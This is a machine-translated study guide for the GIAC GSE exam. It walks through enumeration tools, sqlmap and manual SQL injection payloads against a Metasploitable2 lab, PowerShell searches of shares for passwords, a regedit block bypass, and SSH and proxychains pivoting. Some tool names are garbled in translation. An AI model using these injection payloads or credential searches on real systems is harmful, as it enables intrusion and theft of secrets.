我们将涵盖 Nmap 之外的更多枚举。保持自动化和组织化。看一看使用斯巴达。这是一个很棒的包装器，它的 GUI 使用 Nmap、Nikto 和 Screenshot 来根据打开的端口开始收集信息。我们还将介绍如何使用 Faraday 进行更多的信息收集整合，包括针对 web 应用程序的 dirbuster。

## **斯巴达**

这是非常直接的，但值得一提，因为丰富的自动化可以节省您的时间。然而，它不会像 Zenmap 那样给你一个漂亮的图形。但是，您总是可以将 Nmap 结果导出到 XML 文件中，并将其导入 Zenmap 以查看连接的节点。


## 法拉第(笔式测试组织)

这是一个很好的工具，当你在做一些枚举任务的时候。这相当于您的控制台的包装器，您可以运行它所挂钩的已知工具，并将其输出抓取到自己的数据库中进行显示和整合。您将从其窗口中正常运行您的工具，该窗口作为您的控制台，带有多个选项卡。下面是该工具仪表板的图片，总结了您的测试:


## 恐怖分子

枚举和基本上蛮力的清单网页和目录，这基本上是目录和文件枚举的 brutus。它使用了一系列单词表、过滤器和测量错误响应。我们将在法拉第环境中运行它，以获得您在上面看到的一些细节。


从控制台弹出初始屏幕，你可以输入你的目标并使用默认的单词表。请记住，Kali 2018.1 中的/usr/shared/ <toolname>是所有这些共享资源的位置，这些共享资源是通用的，如配置文件、默认列表以及该包中通用的其他辅助工具。剩下的就不言自明了，除非你开始对相互矛盾的发现产生反应。</toolname>


当你遇到冲突或不一致的响应时，你必须比较它给你的响应，例如寻找错误条件、404 等。有时这些恰好是完全相同的响应，并且没有差别或返回有意义的响应。在这种情况下，您必须使用自己的最佳判断，确定是否存在硬化，或者页面是否只是被设计为返回相同的错误代码。你可以点击“取消”，你可能会得到很多误报，但你会看到你的列表。


## Nikto、Burp 和 SQLMap 的 Web 漏洞

我将这些分组在一起，因为我们将在有限的和集成的测试用例中使用它。我们将攻击 metasploitable2 multidae。以下是可以执行的一些基本步骤。语法和设置并不像你应该掌握的那样重要，也不像你能轻松驾驭它们那样重要。

*   运行 nikto 看看你是否是可注入的(我们已经知道了)，这将是“nikto -h <myip>的最基本形式</myip>
*   找到显示为可注入的页面，并打开 burp 代理(记得将您的本地浏览器设置为适当的本地 Burp 端口)。我们将尝试登录并寻找 SQLmap 中使用的 POST 方法
*   使用适当的开关或在向导模式下运行 sqlmap，以危害主机并转储数据库

让我们运行 Nikto，看看我们在这里做了多少工作:


看起来很容易注射。让我们继续使用 Burp suite 做一个快速的 SQL 注入自动化。我看到许多分析师在第一次运行 sqlmap 时犯的一个错误是试图隔离 url 并以所需的格式手动输入参数。如果你做得不对，sqlmap 不会发现太多错误。最简单的方法是打开 Burp suite，在你想攻击的页面上代理你的帖子或请求，点击右键，将请求保存为文件，如下图所示:


显然，您需要将 Firefox 代理启用到本地主机端口 8080，以便代理打饱嗝。关闭**拦截并在范围内浏览网站。右键单击并复制到文件并保存。**

****

**保存文件后，在一个单独的窗口中使用语法“sqlmap -r <yourfile.txt>和所需的模块启动 sqlmap。我们选择列举数据库系统。</yourfile.txt>**

****

**我们在易受攻击的应用程序中发现了所有运行在 MySQL 上的数据库。如果您打开 wireshark 进行捕获，您将看到所有的 UNION 语句和它的虚拟列一起被注入，以匹配连接两边的数字。不幸的是，Kali 2018.1 没有附带“hURL”或 CyberChef，这使得解码 URL 变得很容易。为了做到这一点，我们在交互模式下转向 Python 2.x 来快速完成:**

```
#python2 interactive url decoding
import urllib
encodedstr = '<insert encoded string>'
urllib.unquote_plus(encodedstr)
```

****

***用户对 Metasploitable2* 的说明:如果您无法让攻击生效，您可能需要在配置文件中更改虚拟机本身的 OWASP 数据库。为此，请登录到 metasploitable2 主机的控制台。默认用户名和密码是“msfadmin”。Sudo root 或 bash 它，执行一个 Nano 或 vi 并对**/var/www/Mutillidae/config . Inc**进行更改，从那里将 dbname 更改为 owasp10。保存文件，然后在新的客户端浏览器会话中单击“重置数据库”链接。**

****

## **登录页面和用户信息的手动 SQL 注入**

**以防 sqlmap 失败或花费太长时间。你可能不得不求助于人工注射。这变得非常令人恼火，在注入有效载荷中保留空格是非常重要的，因为您可能会收到错误。这排除了您可能不得不做的任何编码或其他规避，这在 GSE 中是不太可能的，但知道这一点是有好处的。为了完成类似的用户登录页面和提取帐户机密这里是我的手动有效载荷试验和一些收到的错误。**

**请记住，要枚举表，您需要以“ORDER”语句或“UNION SELECT NULL，...”开始，以递增的方式确定需要与字段对齐的列数。**

****

```
Login bypass in username field without double quotes. Notice the space after the comment out syntax.
"' OR 1=1-- "

'UNION SELECT NULL, @@version, NULL, NULL, NULL -- 

https://www.securitynik.com/2017/02/beginning-web-application-testing-sql.html
admin' UNION SELECT NULL,table_name,column_name,NULL,NULL,NULL,NULL FROM information_schema.columns -- 

------
' UNION SELECT username, password FROM accounts -- 
Error executing query: The used SELECT statements have a different number of columns

https://portswigger.net/web-security/sql-injection/union-attacks
' ORDER BY 6-- 
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- 
Results for . 1 records found.

Username=
Password=
Signature=

' UNION SELECT username, password, signature, NULL, NULL FROM accounts -- 
Line	126
Code	0
File	/var/www/mutillidae/user-info.php
Message	Error executing query: Unknown column 'signature' in 'field list'
Trace	#0 /var/www/mutillidae/index.php(469): include() #1 {main}

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts -- 
Username=adminpass
Password=
Signature=

Username=somepassword
Password=
Signature=

Username=monkey
Password=
Signature=

Username=password
Password=
Signature=

Username=password
Password=
Signature=

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts --
' UNION SELECT username, username, NULL, NULL, NULL FROM accounts -- 
' UNION SELECT username, username, password, password, NULL FROM accounts -- 

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts -- 
' UNION SELECT username || ':' || password, NULL, NULL, NULL FROM accounts -- 
Error executing query: The used SELECT statements have a different number of columns

' UNION SELECT username || ':' || password || ':' || NULL || ':' || NULL || ':' || NULL FROM accounts --
```

## **WMap 替代工具**

**如果 Nikto 帮不了你，还有一个选择。metasploit 框架包括 WMap，它作为一个内置的 Nikto。它有自己的语法，并且要求您的 Metasploit 控制台数据库正在运行并且配置正确。在考试或实验期间，postgresql 可能会离线。如果您正在使用 msfconsole 执行笔测试任务，请使用 db_status 进行双重检查。如果它处于离线状态，请继续为您的虚拟机会话执行以下步骤(请记住，postgresql 不会在重新启动时重新打开，因此可能需要在您的~/中使用它。配置文件。)**

```
#setup MSF database including WMAP dependencies
systemctl start postgresql
msfdb init
msfconsole
db_status
load wmap
```

****

**WMAP 有自己的工作流程，在运行模块之前，您必须定义一个站点，然后是一个目标。**

```
#syntax for WMAP
wmap_sites a <the IP address of your target>
wmap_Targets -t <the full url of your victim/target page>
wmap_run -t
```

****

**出发去参加比赛，如果你在法拉第内部运行，你的结果会自动填充到它的仪表板中。**

***关于 MSF 资源脚本的小说明:*不要忘记/usr/share/metasploit-framework/scripts/resource 目录下的默认 RC 文件。有时，这些程序在执行正确的语法以将其转储到 MSF 数据库中时，速度与 SPARTA 一样快，稍后法拉第可以访问该数据库。要加载它们，你可以在 msfconsole 中运行“resource < filename.rc >”。**

****

## **Windows 相关提示和基本枚举**

**让我们快速休息一下，研究一些与 windows 相关的有趣的东西，这些东西肯定会成为恶意活动 PowerShell cmdlet 提示的一部分。**

## **Net View 与 Get-Smbshare**

**net command suite 对于防御者和红队队员来说是相当熟悉的。当您在不使用 Kali 的情况下枚举共享时，请记住使用“all”参数，否则您将会错过除 IPC 和驱动器默认值之外的关键隐藏共享。语法变成了“net view \\host /all ”,但是如果你有 Powershell，就使用 Get-SMbshare，这样你就不用记住了。**

****

## **PowerShell 漂亮的函数嵌套一行程序**

**你不会总是有机会接触到花哨的[脚本](https://github.com/dc401/mixed_scripts/blob/master/smb-mountandcred-enum.ps1)或工具，所以有时你不得不考虑满足于一些一行程序:**

```
#recursively search shares for multiple keywords like grep
gci -Recurse -Path \\<host>\<folder> -Exclude "*.dll", "*.exe" –ErrorAction SilentlyContinue | Select-String -Pattern "password", "social security"#memory friendly version of recursive searching
 gci -Recurse -path \\<path>\<folder> -Exclude "*.dll","*.exe" -ErrorAction SilentlyContinue | ForEach-Object { Select-String -Path $_.FullName -Pattern "password","social security" -ErrorAction SilentlyContinue }#Use nmap to scan IP's in a list you may have. This particular CSV had two columns host,ip
import-csv .\iplist.csv | ForEach-Object { Write-Host "testing: $_"; nmap -Pn -sV --script ssl-enum-ciphers.nse -p $_.port $_.ip --open >> output.log }

#Quick port open checks on a network /24
1..254 | ForEach-Object { Test-NetConnection -ComputerName 10.10.10.$_ -Port 445 -ErrorAction SilentlyContinue }

#snarf event logs based on date and ID
Get-EventLog -LogName Application -Before (Get-Date) | Where-Object EventID -EQ 9027 | Select-Object -First 5

#look for event logs containing a specific string
Get-EventLog -LogName Security -Before (Get-Date) | Where-Object EventID -EQ 44689 | Where-Object Message -Match "fooprocess.exe" | Format-List

#function to enumerate interesting artifacts
function Get-ChowHackStatus{
		param( [string]$host )

		#get all processes less than 1MB
		Invoke-Command -ComputerName $host -ScriptBlock { Get-Process | Where-Object { $_.WorkingSet -lt 1024000 } | ConvertTo-Json }

	    #show all lower ports listening thats not 445 tcp
		Invoke-Command -ComputerName $host -ScriptBlock { Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" -and $_.LocalPort -lt 1024 -and $_.LocalPort -ne 445 } | ConvertTo-Json }

	    #show profiles where host fw is disabled
	    Invoke-Command -ComputerName $host -ScriptBlock { Get-NetFirewallProfile | Select-Object Enabled,Name,LogFileName | Where-Object { $_.Enabled -ne "True" } | ConvertTo-Json }

	    #Show unsigned drivers installed
	    Invoke-Command -ComputerName $host -ScriptBlock { driverquery.exe /SI | Select-String -CaseSensitive "FALSE" | ConvertTo-Json }

	    #Shows uncommented portions of a Windows HOSTS file
	    Invoke-Command -ComputerName $host -ScriptBlock { Get-Content ("$env:SystemRoot\system32\drivers\etc\hosts") | Select-String -NotMatch "#" | ConvertTo-Json }

	    #Show items to be ran on startup. Note includes all files. 
	    Invoke-Command -ComputerName $host -ScriptBlock { Get-CimInstance Win32_StartupCommand | ConvertTo-Json }
```

**值得注意的一点是，当 CSV 管道中的特定对象没有列出(列)细节时，使用 Sort-Object 会提供不同的结果。您可以在下面看到运行时的不同:**

****

## **额外收获:GPO 受限 Regedit.exe 旁路**

**眼尖的读者可能已经注意到我包含了一种在应用程序级别搜索 windows 事件的方法。(或者，如果发生了内存转储，您可以在 volatility 中搜索)。考虑一个运行注册表编辑器的常见绕过测试案例，不管 GPO 或端点是否将应用程序列入黑名单。**

****

**为此，笔测试人员将启动“rundll32.exe <malicious.dll>，EntryPoint”以便能够注入有效负载。然而，在我们的例子中，我们将只使用一个简单的 oen，叫做 regedit.dll，它是由迪迪尔·斯蒂文斯创建的。这使我们能够成功绕过仅基于二进制黑名单的 regedit 访问限制。如果不对我们的 SID 应用注册表 ACL 的补偿控制，我们仍然可以进行修改。你能想到在主机中做这样的事情会留下什么样的日志区域和工件吗？</malicious.dll>**

****

## **使用 SSH、Ncat 和 ProxyChain 进行旋转**

**我们感兴趣的最后一个让许多分析师困惑的主题是变化的旋转技术。有充当 VPN 的[shuttle](https://github.com/sshuttle/sshuttle)，当然还有 MSF 的自动路由、端口转发和 L2 VPN(专业用户)。正如您可能期望的那样，许多这些细微之处对您来说是不可用的。所以剩下的通常是一个丑陋的 netcat 需求，在那里你必须反向管道一些东西。你可能会很幸运，在盒子上有“ncat ”,这不是那么古怪。但是如果你有这个选项，你可以使用 SSH，它也可以工作。让我们开始吧。**

## **本地防火墙旁路**

**假设您已经入侵了一台远程主机。您想要访问运行类似 web 管理服务的特定端口。然而，你只能远程 SSH 到你已经妥协的主机，没有其他端口对你开放；也许只是运行它的本地子网。在这个场景中，在“受损”的主机上，我通过 IPtables 将我的“攻击者”子网显式阻止到正在侦听的 tcp 端口 1337。下面是使用 SSH 本地端口转发的设置和旁路:**

```
#setup on compromised metasploitable2 host local firewall (192.168.119.130) for explicit block
iptables -F
iptables -A INPUT -p tcp -s <my attacking subnet> --dport 1337 -j DROP
iptables -L
#setup a netcat listener on the metasploitable2 compromised host
nc -v -k -l -p 1337

#from the attackers host PRIOR to the local foward tunnel run nmap scan
nmap -Pn -p 22,1337 192.168.119.130

#knowing that SSH is open with access and 1337 is closed; turn on tunnel on tcp port 2020 on my attacker host
#The "pivot" victim compromise box is opening a tunnel to itself which is why the term 'localhost' is used. Not from the attacker's perspective. 
ssh -L 2020:localhost:1337 msfadmin@192.168.119.130

#Test the connection from attacker's host
ncat -v 127.0.0.1 2020
```

****

## **从 Pivot 主机进行简单的本地端口转发**

**与上面类似，而不是绕过“中枢”或受损主机上的本地防火墙。假设我们想要连接到一个桥接的网络，或者有一个额外的路由连接到我们受损的房子。我们可以像这样通过中枢主机从本地机器路由我们的攻击者流量。我们再次使用 SSH 本地端口转发来实现这一点，只是我们指示来自 tcp 端口 6500 上的本地侦听器的所有流量都应该被定向到端口 53 上的 Google DNS 服务器，其中 metasploitable 2(192 . 168 . 119 . 130)作为我们的中枢代理。这从 atacker 的盒子中可以看出:**

****

**我们现在将测试我们的隧道，并尝试进行端口检查，以查看 tcp 端口 53 是否确实在 google DNS 服务器上打开。它显然是；但是请注意，当您使用本地转发时，Nmap 会显示 tcpwrapper 状态。我们将使用 proxychains 稍微改变这一点。**

****

**以确保我们确实在往外走；在 pivot box 上执行 tcpdump，您可以看到它在接口上将我们的请求转发给 Google DNS。**

****

## **代理链动态转发**

**从攻击主机执行漏洞扫描，转到您无法直接访问的网络；你本质上仍然执行相同的功能。仅代替静态单本地端口转发；您使用动态本地端口转发。SSH 上的动态转发本质上就像一个本地 SOCKS 代理，因此您可以使用像 Burp 这样的工具来增加可见性。**

**对于像 Nmap 这样不支持 SOCKS 代理的工具，您可以使用 proxychains。由于转发和链工作的性质；您将只能扫描 TCP 端口。它很慢，我指的是慢。如果可能的话，您需要运行大规模的枚举，尽最大努力在受损的 pivot 主机上安装工具，并从那里运行它，而不是通过动态转发链接您的连接。尽管如此，还是让我们试试吧。**

**在 Kali 中，编辑/etc/proxychains.conf 文件，以包含您想要在本地监听的端口。我们将再次使用 tcp 端口 6500 作为本地侦听器。我们将其标记为“socks5”代理，如下所示:**

****

**现在让我们运行动态转发，并开始跨多个端口再次将我们的扫描转发到 Google DNS。我们应该看到 TCP 端口 443 和 53 重新打开。我们将使用“-D”开关进行动态转发，使用“-f”开关确保 SSH 进程在后台运行，使用“-N”开关确保不执行远程命令(例如，除了扫描，我们不会使用隧道进行任何操作，而不是交互式 shell)。**

```
#edit the proxychains file adding socks5 127.0.0.1 6500
vim /etc/proxychains.conf
ssh -D -f -N 127.0.0.1:6500 msfadmin@<pivothost>
#run nmap through proxy chains
proxychains nmap -Pn
```

****

**恭喜世界上最慢的端口扫描。然而，如果您没有能力将工具添加到您受损的枢纽主机中；如果你不能使用像 sshuttle 或 metasploit 的 VPN 这样的 L2 VPN，这实际上是你剩下的东西。无论你怎么看，旋转都是一个缓慢的过程。**

***在不稳定的系统中旋转的注意事项*:偶尔你会在一个主机上有一个外壳或者一个你需要运行但可能会停止的服务。其中一个众所周知的例子是 RealVNC 服务，它在演示模式下超时。显然还有更好的远程功能，但假设这是您必须使用的全部功能。在 pivot 主机上，您尝试使用的一个技巧是，如果您不依赖任何实时传输，使用一个简单的看门狗脚本来重新启动它。这是我的一句俏皮话:**

```
#restart a service if it is down checking every 3 seconds
while sleep 3; do if [ `systemctl is-active vncserver` == "inactive" ]; then echo "down" && eval "systemctl start vncserver@1"; fi; sleep 1; done
```

**正如你在[第 1 部分](https://medium.com/datadriveninvestor/study-guide-for-the-gse-giac-security-expert-part-1-da6ca4e4da7a)中看到的，当另一个命令有特殊字符时，我们使用 eval 命令将它包装成字符串。**

## **关于 GSE 范围内缓冲区溢出的说明**

**与 GXPN 不同，GSE 核心不要求您执行特定的堆栈开发。即使有，你最多也只能使用模板脚本和一个附加了 Mona.py 的 GDB 或免疫调试器。从理论的角度来看，所有 GCIH 认证人员都需要了解 EIP/RIP 接管并重定向其控制流的标准概念，以便通过直接 Jmp 在 NOP Sled 中着陆，或者可能使用非 ASLR 支持的 ROP 小工具进行指令，如 POP POP RET 方法。如果您对此感到生疏或者不理解这些概念，我推荐以下资源来帮助解释和使用它:**

*   **佩琉斯的简单 BOF**
*   **[Metasploit Unleashed(已经更新为包含 ROP 小工具)](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/)**
*   **[Corlean 的堆栈溢出教程第 1 部分和第 2 部分](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)**

**您可能仍然需要在资格考试和实验室考试中使用类似于 **pattern_offset.rb** 和 **pattern_create.rb** 的脚本，以便将其插入到框架脚本中，或者使用 Python 内联并将字符打印到参数或其他用户输入缓冲区中，从而导致段错误并找到 x86 堆栈的偏移地址空间。**

***关于 Python 2 与 3 内联语句和本地库的小说明:***

**根据您的用例，您可能需要改变在 Python 2 和 3 中构建语句的方式，并了解常见用例的新模块。例如，现在 print 语句必须用函数括号括起来:**

****

**在 python 2 中，您可以使用后跟乘数表达式的常规打印语句。现在，在应用乘数之前，您必须将 print 语句作为一个函数包含在内。另一个常见功能变化的例子是能够从 Kali VM 向主机桌面提供文件。Python2 的 SimpleHttpServer 现在位于另一个名为“http.server”的模块中，如下所示:**

****

**请密切关注考试和实验中运行的脚本，因为有些脚本可能需要 Python 2 或 3。**

**为了运行这两个 BOF 助手 ruby 脚本，Kali 2018.1 映像将它们放在**/usr/share/metasploit-framework/tools/**下。从网络和主机取证的角度看是一个辩护人；在日志中执行时，您应该知道 NOPsleds、可能的 shell 有效负载模式和主机命令等效项。这些都列在你的 GCIA 书里。**

## **关闭**

**这是一篇很长的文章，我感谢你与我分享这段旅程。希望这对于 GSE 实验室来说足够了，我将能够带着第 3 部分回来，强调我的经验(在他们允许我们讨论的范围内)以及我将向未来的候选人传递什么建议。如果你仍然想知道你还能做些什么，考虑创建一个 Github 并抛出任何你认为可能有帮助的有用的脚本和一行程序。这也将有助于安全社区，有时那些分叉你的代码的人会给你信任。像往常一样，如果你需要任何网络安全需求，你可以在 www.scissecurity.com[找到我。](http://www.scissecurity.com)**

****

**Github Page Example**

****访问专家视图—** [**订阅 DDI 英特尔**](https://datadriveninvestor.com/ddi-intel)**